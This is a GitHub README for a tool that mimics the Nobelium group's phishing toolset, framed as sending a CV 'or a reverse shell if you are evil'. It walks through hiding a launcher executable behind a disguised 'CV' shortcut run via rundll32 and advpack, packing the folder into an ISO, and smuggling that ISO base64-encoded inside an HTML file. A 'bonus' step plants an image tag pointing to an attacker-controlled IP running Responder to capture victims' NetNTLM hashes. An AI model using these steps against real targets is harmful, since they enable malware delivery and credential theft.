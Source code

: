 # Mimicking Nobelium APT to send your resume or a reverse shell if you are evil

![](icono/cv.gif)

It's been a while I wanted to try to mimick the cybercriminal group Nobelium's early-stage toolset and I thought it would be fun to do that sending a CV.

##Let's get started

First of you can clone this repo : 

```
git clone https://github.com/fredtep/SendCV.git
```

## In Linux : 
Modify calc.cs to suite your needs then compile with : 

```bash
mcs -out:calcLauncher.exe calc.cs
```

## In windows : 

1/ Create a Directory

```mkdir CV\Hidden```

2/ Hide the Hidden Folder

```attrib +h CV\Hidden```

3/ Copy the Hidden/CV-Hack3r-2024.pdf inside the Hidden Folder

4/ Copy calcLauncher.exe inside the CV Folder

5/ Hide calcLauncher.exe (right click > properties > Hidden)

6/ Now create a shorcut :

- right click > New > Shorcut

- **For the path choose :** C:\Windows\System32\rundll32.exe c:\windows\system32\advpack.dll,RegisterOCX calcLauncher.exe

- **For the name choose :** CV

Bonus/ You can change the icon as well if you want : right click > properties > Change Icon

You can select some icon from here : %systemroot%\system32\imageres.dll

## Building the ISO file

First of all we need to get oscdimg.exe which is installed along with the Windows Assessment and Deployment Kit (Windows ADK) 
To do so download ADK at this address : [https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install](https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install)

Now you can run the following command

```"C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\x86\Oscdimg\Oscdimg" -m -u2 -h -lCV "C:\users\fred\Desktop\CV" "C:\Users\fred\Desktop\CV.iso"```

Now just take your file back to linux and encode the ISO to base64.

```cat CV.iso | base64 -w 0```

Finally copy the output and replace the content of the b64iso variable inside cv.html (toward the end of the script)

Upload cv.html to a server or send it as is and enjoy !

## WICKED BONUS

You can capture the NetNTLM hash of your victim by running responder in a server you own and change line 119 in cv.html : 
```<img src="file://<MY EVIL IP RUNNING RESPONDER>/responder.png" alt="">```

---------------------------------------------------------------

Filesaver.js can be found [here](https://github.com/eligrey/FileSaver.js/tree/master)
Nobelium breakdown can be found [here](https://www.microsoft.com/en-us/security/blog/2021/05/28/breaking-down-nobeliums-latest-early-stage-toolset/)